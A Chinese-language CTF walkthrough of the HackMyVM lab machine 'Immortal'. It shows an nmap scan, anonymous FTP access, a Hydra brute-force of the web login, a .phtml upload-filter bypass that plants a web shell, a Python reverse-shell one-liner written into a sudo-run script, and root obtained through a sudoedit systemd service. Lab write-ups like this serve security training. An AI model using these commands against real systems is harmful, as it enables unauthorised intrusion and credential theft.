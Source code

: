 ```yaml
---
sidebar_position: 3
tags: [Easy, Linux, FTP, SSH, Credential Cracking, 文件上传, SUDO, .service]
title: Immortal
---
```

# Immortal
## 端口扫描
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# nmap -sTCV -p- --min-rate 1000 192.168.0.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 02:18 EDT
Nmap scan report for 192.168.0.102 (192.168.0.102)
Host is up (0.0022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             504 Feb 27 22:03 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-bounce: bounce working!
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 e8:79:ad:8b:d1:a8:39:1b:ac:ed:52:ef:d0:22:0e:eb (RSA)
|   256 65:df:6d:1d:49:11:bd:f3:2f:fa:10:0c:3b:48:69:39 (ECDSA)
|_  256 f6:b7:bf:cf:a5:d5:1b:26:4e:13:08:31:07:d5:79:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Password
|_http-server-header: Apache/2.4.56 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## FTP - 21
当我看见 FTP 的时候本能反应尝试 FTP 匿名身份登陆, 发现可以登陆并从其中获取到一些信息, 但是很可惜这是一个提示消息
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# ftp 192.168.0.102
Connected to 192.168.0.102.
220 (vsFTPd 3.0.3)
Name (192.168.0.102:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50560|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             504 Feb 27 22:03 message.txt

┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# cat message.txt 
Hey guys!
I made it, after all this time. That's right guys, the great precious immortality. The one coveted by all and achieved by none. Favoured by all and owned by none. 
Now we have to be careful guys, we have to hide this from the world, from governments and other dangerous institutions. 
They may even have already heard about our achievement, they are everywhere! That's why I have decided to strengthen the security of the server. What if they try to hack us!!! 
Wishing you a long life, David.
```
:::info
- [x] 从中我获取到一个用户名 : `David`
:::
## HTTP - 80
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412142800.png)
访问 HTTP 服务, 我发现就是一个单纯的密码登陆, 我使用了目录扫描也没有找见, 所以我计划使用爆破手段, 万幸爆破到了
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# hydra -l admin  -P /usr/share/wordlists/rockyou.txt 192.168.0.102 http-post-form "/:password=^PASS^:Incorrect credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-12 02:27:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.0.102:80/:password=^PASS^:Incorrect credentials
[80][http-post-form] host: 192.168.0.102   login: admin   password: santiago
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-12 02:27:23
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412142919.png)
之后查看其中的文件, 在 chat 中我发现了一些特殊的位置, 告诉了我一个新的文件上传的位置
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412143047.png)
直接访问这个地址, 然后上传 ReverseShell, 但是存在过滤, 尝试了很久发现白名单是 `.phtml` , 上传后随后在 `chat` 中发现了对应的 WebShell
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412150912.png)
## 后渗透
### www-data --> drake
在用户 `drake` 的家目录中发现了一个密码文件 (这个目录比较特殊, 刚开始都没发现)
```bash
(remote) www-data@Immortal:/home/drake/...$ cat pass.txt 
netflix : drake123
amazon : 123drake
shelldred : shell123dred (f4ns0nly)
system : kevcjnsgii
bank : myfavouritebank
nintendo : 123456
```
随后使用这个构造一个字典开始爆破 SSH 密码
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412153307.png)
### drake --> eric
登陆之后发现用户 drake 具有特殊权限, 并且这个对应的文件也是有修改权限的
```bash
drake@Immortal:/home$ sudo -l
Matching Defaults entries for drake on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drake may run the following commands on Immortal:
    (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py
drake@Immortal:/home$ ls -al /opt/immortal.py 
-rw-rw-rw- 1 root root 147 Feb 28 20:20 /opt/immortal.py
drake@Immortal:/home$ cat /opt/immortal.py 
a = input(str("Do you want to be immortal: "))

if a.lower() == "yes" or a.lower() == "no":
   print("Bad answer")
else:
   print("Are you sure?")
drake@Immortal:/home$
```
直接修改原 py 文件, 让其产生一个反向 Shell
```bash
(remote) drake@Immortal:/home$ cat << EOF > /opt/immortal.py 
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.103",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
> EOF
(remote) drake@Immortal:/home$ sudo -u eric /usr/bin/python3 /opt/immortal.py
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412154018.png)
### eric --> root
直接查看用户权限, 发现这个用户权限是管理一个服务, 直接提权
```bash
(remote) eric@Immortal:/home$ sudo -l
Matching Defaults entries for eric on Immortal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eric may run the following commands on Immortal:
    (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
    (root) NOPASSWD: /usr/bin/systemctl start immortal.service
    (root) NOPASSWD: /usr/bin/systemctl stop immortal.service
    (root) NOPASSWD: /usr/bin/systemctl enable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl disable immortal.service
    (root) NOPASSWD: /usr/bin/systemctl daemon-reload
```
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412154326.png)
随后直接执行即可
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240412154416.png)